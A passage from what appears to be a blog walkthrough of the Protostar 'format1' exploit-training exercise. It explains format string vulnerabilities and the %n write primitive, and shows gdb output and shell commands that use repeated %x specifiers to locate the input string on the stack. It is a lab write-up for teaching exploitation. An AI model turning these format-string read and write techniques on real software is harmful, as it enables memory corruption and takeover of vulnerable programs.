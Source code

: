 Like before, we want to overwrite `target`. However, this time `target`'s
location on the stack is very far away from our current location on the stack.

```
(gdb) info reg
eax            0x0      0
ecx            0x87cb0d94       -2016735852
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff760       0xbffff760
ebp            0xbffff778       0xbffff778
esi            0x0      0
edi            0x0      0
eip            0x80483fa        0x80483fa <vuln+6>
eflags         0x200286 [ PF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) print &target
$1 = (int *) 0x8049638
```

With format string vulnerabilities, you are able to directly write into an
arbitrary memory address. The `%n` format parameter writes the number of bytes
written so far by the format string function into a memory address referenced
by a pointer. The pointer, like all other parameters, is passed through the
stack. Since our input to the `printf()` function is stored on the stack (as it
is passed through `argv`), we have all the neccessary components to exploit
this.

The first hurdle to exploitation is that the `printf()` is not in the same
stack frame as the input string. This usually means that the input string is
very far away from our current stack pointer. We first need to locate where the
start of our input string is.

Conveniently, format string vulnerabiltiies provide us with a very easy way to
read the stack. Each `%x` prints out the next 4 bytes on the stack and moves
the stack pointer forward by the same amount. The fact that format string
vulnerabilities provide both a read _and_ write primitive is why they are
so powerful.

```shell
user@protostar:/opt/protostar/bin$ /opt/protostar/bin/format1 $(python -c "print 'AAAA' + '%x.%x'")
AAAA804960c.bffff788
```

We want to increment this until we locate the start of our input string
(`0x41414141`) on the stack. This is known as "stack popping".

```shell
user@protostar:/opt/protostar/bin$ /opt/protostar/bin/format1 $(python -c "print 'AAAA' + '%x.'*134 + '%x'")
AAAA804960c.bffff5f8.8048469.b7fd8304.b7fd7ff4.bffff5f8.8048435.bffff7dc.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff678.b7eadc76.2.bffff6a4.bffff6b0.b7fe1848.bffff660.ffffffff.b7ffeff4.804824d.1.bffff660.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff678.230a9a2b.95eec3b.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6a4.8048450.8048440.b7ff1040.bffff69c.b7fff8f8.2.bffff7c1.bffff7dc.0.bffff975.bffff983.bffff98f.bffff9b0.bffff9c3.bffff9d6.bffff9e0.bffffed0.bfffff0e.bfffff22.bfffff39.bfffff4a.bfffff52.bfffff62.bfffff6f.bfffffa3.bfffffb2.bfffffcf.0.20.b7fe2414.21.b7fe2000.10.fabfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7ab.1f.bfffffe1.f.bffff7bb.0.0.0.0.0.77000000.4d5d1483.52aa6e73.a62e2707.69255758.363836.706f2f00.72702f74.736f746f.2f726174.2f6e6962.6d726f66.317461.41414141
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: {% post_url 2018-05-22-protostar-walkthrough-stack %}
[exploiting-format-string-paper]: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
[got-blog-post]: https://eli.thegreenplace.net/2011/11/03/position-independent-code-pic-in-shared-libraries/